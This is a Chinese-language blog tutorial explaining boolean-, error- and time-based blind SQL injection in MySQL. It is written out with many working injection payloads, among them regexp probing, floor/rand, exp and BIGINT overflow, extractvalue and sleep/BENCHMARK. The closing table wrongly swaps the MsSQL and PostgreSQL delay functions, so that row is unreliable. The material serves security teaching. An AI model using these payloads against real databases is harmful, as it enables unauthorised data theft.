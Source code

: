 ```yaml
---
title: SQLi-盲注的介绍
comments: true
date: 2017-09-21 22:06:13
type:
categories: web
tags: [WEB,SQLi]
---
```


何为盲注？盲注就是在 sql 注入过程中，sql 语句执行的选择后，选择的数据不能回显 到前端页面。此时，我们需要利用一些方法进行判断或者尝试，这个过程称之为盲注。从 background-1 中，我们可以知道盲注分为三类：

- 基于布尔 SQL 盲注
- 基于时间的 SQL 盲注
- 基于报错的 SQL 盲注

> 知识点太多了，这里只能简单列出来大致讲解一下。

<!--more-->



## 基于布尔 SQL 盲注 —— 构造逻辑判断

我们可以利用逻辑判断进行

#### 截取字符串

1. 截取字符串 `MID(column_name,start[,length])`

   > column_name —— 必需。要提取字符的字段。
   >
   > start —— 必需。规定开始位置（起始值是 1）。
   >
   > length —— 可选。要返回的字符数。如果省略，则 MID() 函数返回剩余文本。

2. 截取字符串 `substring(string, start, length)` or `substr(string, start, length)`

3. 得到字符串左部指定个数的字符 `left ( string, n )`

>  [截取字符串相关函数详情](http://www.cnblogs.com/lcamry/p/5504374.html) （这个还是要看下）

#### ASCII转换函数

1. `ascii(object)`将某个字符转换 为ascii值
2. `ord()` 将某个字符转换 为ascii值

#### regexp正则注入

> 详细介绍：[正则注入介绍](http://www.cnblogs.com/lcamry/articles/5717442.html)

e.g. `select user() regexp '^[a-z]'`

explain：`user()`结果为 root，`regexp`为匹配 root 的正则表达式。 第二位可以用 `select user() regexp '^ro'`来进行。

![](http://owhak23d7.bkt.clouddn.com/17-9-30/26445401.jpg)

当正确的时候显示结果为 1，不正确的时候显示结果为 0

因此，我们可以通过if 语句的条件判断，返回一些条件句，比如 if 等构造一个判断。根据返回结果是否等 于 0 或者 1 进行判断。

e.g.  `select * from users where id=1 and 1=(if((user() regexp '^r'),1,0))` 



e.g. `select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^us[a-z]' limit 0,1)`

explain: 这里利用 select 构造了一个判断语句。我们只需要更换 regexp 表达式即可。

> `'^u[a-z]'`  -> `'^us[a-z]'`  -> `'^use[a-z]'`  -> `'^user[a-z]'` -> FALSE



- 如何知道匹配结束了？

  > 这里大部分根据一般的命名方式（经验）就可以判断。但是如何你在 无法判断的情况下，可以用 `table_name regexp '^username\$ '`来进行判断。是从开头进行 匹配，\$是从结尾开始判断。更多的语法可以参考 mysql 使用手册进行了解。


- table_name 有好几个，我们只得到了一个 user，如何知道其他的？

  > 这里可能会有人认为使用`limit 0,1`改为`limit 1,1`。
  >
  > 但是这种做法是错误的，`limit`作用在前面的`select`语句中，而不是`regexp`。那我们该如何选择。其实在`regexp`中我们是取匹配`table_name`中的内容，只要`table_name`中有的内容，我们用`regexp`都能够匹配到。因此上述语句不仅仅可以选择user，还可以匹配其他项。

#### like匹配注入

和上述的正则类似，mysql在匹配的时候我们可以用like进行匹配。

e.g. `select user() like 'ro%'`

![](http://owhak23d7.bkt.clouddn.com/17-9-30/34526890.jpg)



##  基于报错的 SQL 盲注 —— 构造payload让信息通过错误提示回显出来

#### 数据计数时重复造成的错误

e.g. `select count(*) from information_schema.tables group by concat(version(),floor(rand(0)*2))`

explain: 此处有三个点，一是需要`concat`计数，二是`floor`，取得0 or 1，进行数据的重复，三是`group by`进行分组，但具体原理解释不是很通，大致原理为分组后数据计数时重复造成的错误。也有解释为mysql的bug的问题。但是此处需要将`rand(0)`, `rand()`需要多试几次才行。

- 如果关键的表被禁用了，可以使用这种形式

  `select count(*) from (select 1 union select null union select !1) group by concat(version(),floor(rand(0)*2))`


- 如果rand被禁用了, 可以使用用户变量来报错

  `select min(@a:=1) from information_schema.tables group by concat(password,@a:=(@a+1)%2)`

#### double数值类型超出范围

e.g.  `select exp(~(select * FROM(SELECT USER())a))`

> exp()为以 e 为底的对数函数；版本在 5.5.5 及其以上
>
> 详细介绍： [使用exp进行SQL报错注入](http://www.cnblogs.com/lcamry/articles/5509124.html)

由于当传递一个大于<u>709</u>的值时，函数`exp()`就会引起一个溢出错误。而将0按位取反就会返回“<u>18446744073709551615</u>”，再加上函数成功执行后返回<u>0</u>的缘故，我们将成功执行的函数*取反*就会得到最大的无符号*BIGINT*值。

所以，我们通过子查询与按位求反，造成一个***DOUBLE overflow error***，并借由此注出数据。

#### BIGINT溢出错误

e.g.  `select !(select * from (select  user())x) - ~0`  (后面的 '-' 是减号)

> bigint超出范围；~0 是对0逐位取反。版本在 5.5.5 及其以上，之下的版本对于整数溢出不会发送任何消息
>
> 详情介绍： [基于BIGINT溢出错误的SQL注入](http://www.cnblogs.com/lcamry/articles/5509112.html)

数据类型*BIGINT*的长度为**8**字节，也就是说，长度为**64比特**。这种数据类型最大的有符号值，用二进制、十六进制和十进制的表示形式分别为“<u>0b0111111111111111111111111111111111111111111111111111111111111111</u>”、“<u>0x7fffffffffffffff</u>”和“<u>9223372036854775807</u>”。 当对这个值进行某些数值运算的时候，比如加法运算，就会引起“***BIGINT value is out of range***”错误（无符号整数同理）。

我们知道，如果一个查询成功返回，其返回值为0，所以对其进行逻辑非的话就会变成1。所以，只要我们能够组合好逐位取反和逻辑取反运算，我们就能利用溢出错误来成功的注入查询。

#### xpath 语法错误

e.g.  `extractvalue(1,concat(0x7e,(select @@version),0x7e))`

e.g.  `updatexml(1,concat(0x7e,(select @@version),0x7e),1)`

mysql 对xml数据进行查询和修改的xpath函数，xpath语法错误

#### mysql重复特性

e.g.  `select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x`

此处重复了 version，所以报错。



## 基于时间的 SQL 盲注 —— 延时注入

#### sleep()函数

e.g.  `If(ascii(substr(database(),1,1))>115,0,sleep(5))%23`

if 判断语句，条件为假， 执行 sleep

> 如遇到以下这种利用 sleep()延时注入语句`select sleep(find_in_set(mid(@@version,1,1), '0,1,2,3,4,5,6,7,8,9,.'))`
> 该语句意思是在 0-9 之间找版本号的第一位。但是在我们实际渗透过程中，这种用法是不可
> 取的，因为时间会有网速等其他因素的影响，所以会影响结果的判断。

#### BENCHMARK()函数

e.g.  `UNION SELECT IF(SUBSTRIN`

`G(current,1,1)=CHAR(119),BENCHMARK(5000000,ENCODE(‘M SG’,’by 5 seconds’)),null) FROM (select database() as current) as tb1`

BENCHMARK(count,expr)用于测试函数的性能，参数一为次数，二为要执行的表达式。

可以让函数执行若干次，返回结果比平时要长，通过时间长短的变化，判断语句是否执行成功。这是一种边信道攻击，在运行过程中占用大量的cpu资源。

推荐使用 sleep()函数进行注入。

> 这里配上一个《白帽子讲安全》的表:
>
> |   数据库类型    |                   注入方法                   |
> | :--------: | :--------------------------------------: |
> |   MySQL    |  BENCHMARK(100000,MD5(1))  or sleep(5)   |
> |   MsSQL    | PG_SLEEP(5)   OR  GENERATE_SERIES(1,10000) |
> | PostgreSQL |         WAITFOR  DELAY  ‘0:0:5’          |







<u>refer:  mysql注入天书，百度一下就能找到</u>